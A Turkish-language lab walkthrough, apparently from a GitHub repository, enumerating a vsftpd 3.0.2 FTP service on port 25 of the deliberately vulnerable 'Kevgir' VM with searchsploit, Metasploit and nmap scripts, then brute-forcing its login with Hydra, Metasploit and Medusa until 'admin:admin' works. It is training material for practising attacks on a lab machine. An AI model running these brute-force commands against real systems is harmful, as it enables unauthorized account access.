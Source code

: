 FTP, dosyaların bir ağ üzerinden bir bilgisayardan diğerine taşınmasını sağlayan bir dosya paylaşım protokolüdür. Farklı uygulamalar veya tarayıcılar üzerinden erişim sağlanabilir. Ancak, FTP şifreli bir protokol değildir; şifreli sürümleri olan FTPS veya SFTP mevcuttur.

Kevgir makinesinde 25. porta   vsfpt 3.0.2 veriyonlu ftp sunucusu çalışmaktadır.

Bu çalışan hizmet hakkında bilgi toplayabilmek adına bir çok farklı adım gerçekelştirebiliriz . 


### Exploit-db aracılığyla mevcut sürümde bir exploit olup olmadığı kontrol edilebilir. 
   
```
└──╼ #searchsploit vsfpt
Exploits: No Results
Shellcodes: No Results
```
   
### Metasploit aracılığıyla mevcut sürümde bir exploit olup olmadığı kontrol edilebilir. 
   
```
   Matching Modules
================

   #  Name                                  Disclosure Date  Rank       Check  Description
   -  ----                                  ---------------  ----       -----  -----------
   0  auxiliary/dos/ftp/vsftpd_232          2011-02-03       normal     Yes    VSFTPD 2.3.2 Denial of Service
   1  exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  No     VSFTPD v2.3.4 Backdoor Command Executi
```


### Nmap ile alınan çıktı
   
```
25/tcp   open  ftp         vsftpd 3.0.2
|_smtp-commands: SMTP: EHLO 530 Please login with USER and PASS.\x0
```

### Metasploit aracılığıyla 25. Port taranabilir 
```
└──╼ #msfconsole -q -x "use auxiliary/scanner/ftp/ftp_version; set RHOSTS 10.0.2.10;set RPORT 25; run; exit"
RHOSTS => 10.0.2.10
RPORT => 25
[+] 10.0.2.10:25          - FTP Banner: '220 (vsFTPd 3.0.2)\x0d\x0a'
[*] 10.0.2.10:25          - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution complete
```


### Nmap başlığı altında NSE scriptleri hakkında komutlardan bahsetmiştik aşağıda bulunan komut ile mevcut kullanabilecek scriptleri listleler 

```
ls /usr/share/nmap/scripts/ftp-* | grep -o "ftp.*" 
```

```
ftp-anon.nse
ftp-bounce.nse
ftp-brute.nse
ftp-libopie.nse
ftp-proftpd-backdoor.nse
ftp-syst.nse
ftp-vsftpd-backdoor.nse
ftp-vuln-cve2010-4221.nse

```

```
└──╼ #nmap 10.0.2.10 -p 25 --script=ftp-vsftpd-backdoor.nse -sV -sC
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-21 10:08 +03
Nmap scan report for 10.0.2.10
Host is up (0.00093s latency).

PORT   STATE SERVICE VERSION
25/tcp open  ftp     vsftpd 3.0.2
MAC Address: 08:00:27:06:93:DA (Oracle VirtualBox virtual NIC)
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/subm
```


### Username-Parola Brute Force 

Brute force saldırısı için birçok yöntem mevcuttur. Hydra, Medusa veya Metasploit gibi araçlar kullanılabilir. Brute force gerçekleştirebilmek için öncelikle bir wordlist'e ihtiyaç duyulur. metasploit içinde bulunan "http_default_users.txt" dosyasını kullanıcı adı wordlist'i olarak kullanacağım. Parola için ise yine Seclist'ten "http_default_pass.txt" dosyasını tercih edeceğim.

#### Hydra 

```
hydra -L /usr/share/metasploit-framework/data/wordlists/http_default_users.txt -P /usr/share/metasploit-framework/data/wordlists/http_default_pass.txt ftp://10.0.2.10:25 -F
```


```
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-10-21 11:52:11
[DATA] max 16 tasks per 1 server, overall 16 tasks, 266 login tries (l:14/p:19), ~17 tries per task
[DATA] attacking ftp://10.0.2.10:25/
[25][ftp] host: 10.0.2.10   login: admin   password: admin
[STATUS] attack finished for 10.0.2.10 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-10-21 11:52:
```

#### Metasploit

```
msf6 > use auxiliary/scanner/ftp/ftp_login
set USER_FILE /usr/share/metasploit-framework/data/wordlists/http_default_users.txt
set USERPASS_FILE /usr/share/metasploit-framework/data/wordlists/http_default_pass.txt
set RHOSTS 10.0.2.10
set USER_AS_PASS true
run
```

```
[+] 10.0.2.10:25          - 10.0.2.10:25 - Login Successful: admin:admin
```


Medusa 

```
medusa -h 10.0.2.10 -n 25  -U /usr/share/metasploit-framework/data/wordlists/http_default_users.txt -P /usr/share/metasploit-framework/data/wordlists/http_default_pass.txt -M ftp
```


```
Medusa v2.2 [http://www.foofus.net] (C) JoMo-Kun / Foofus Networks <jmk@foofus.net>

ACCOUNT CHECK: [ftp] Host: 10.0.2.10 (1 of 1, 0 complete) User: admin (1 of 14, 0 complete) Password: admin (1 of 19 complete)
ACCOUNT FOUND: [ftp] Host: 10.0.2.10 User: admin Password: admin [SUCCESS]
```



### Tespit  edilen kullanıcı bilgileri ile ftp'ye giriş 


```
└──╼ #ftp admin@10.0.2.10 -p 25
Connected to 10.0.2.10.
220 (vsFTPd 3.0.2)
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> 

```